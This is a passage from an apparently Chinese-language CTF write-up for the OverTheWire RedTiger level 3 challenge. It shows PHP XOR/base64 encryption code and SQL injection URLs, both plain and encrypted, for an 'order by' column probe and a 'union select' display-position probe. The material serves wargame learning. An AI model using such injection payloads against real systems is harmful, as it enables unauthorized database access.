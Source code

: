 ```bash
				$temp = "0".$temp;
			}
			$cryptedstr .= $temp. "";
		}
		return base64_encode($cryptedstr);
	}
  
	function decrypt ($str)
	{
		srand(3284724);
		if(preg_match('%^[a-zA-Z0-9/+]*={0,2}$%',$str))
		{
			$str = base64_decode($str);
			if ($str != "" && $str != null && $str != false)
			{
				$decStr = "";
				
				for ($i=0; $i < strlen($str); $i+=3)
				{
					$array[$i/3] = substr($str,$i,3);
				}

				foreach($array as $s)
				{
					$a = $s ^ rand(0, 255);
					$decStr .= chr($a);
				}
				
				return $decStr;
			}
			return false;
		}
		return false;
	}
?>
```

一开始，我是在window下进行加密的，但是做了很久一直做不出来，后来看了，别人的writeup，原来要在linux下运行。

判断字段

```
原语句：
http://redtiger.labs.overthewire.org/level3.php?usr=Admin'order by 7 #
加密后：
http://redtiger.labs.overthewire.org/level3.php?usr=MDQyMjExMDE0MTgyMTQwMTc0MjIzMDg3MjA4MTAxMTg0MTQyMDA5MTczMDA2MDY5MjMyMDY1MTkw

```
显示位

```
原语句：
http://redtiger.labs.overthewire.org/level3.php?usr=spoock' union select 1,2,3,4,5,6,7 #
加密后：
http://redtiger.labs.overthewire.org/level3.php?usr=MDI0MTk5MDEyMTc2MTI5MjI2MjE2MDI0MjE1MTExMTgwMTQ3MDcxMjM5MDEyMDAwMTc5MDA0MjU0MDMwMDQ1MjE4MjQzMTk3MDcyMjMzMTMwMjAwMTY5MTIxMTUzMTk4MDQwMDQ3MjQwMTk3
```
得到显示位2,4,5,6,7
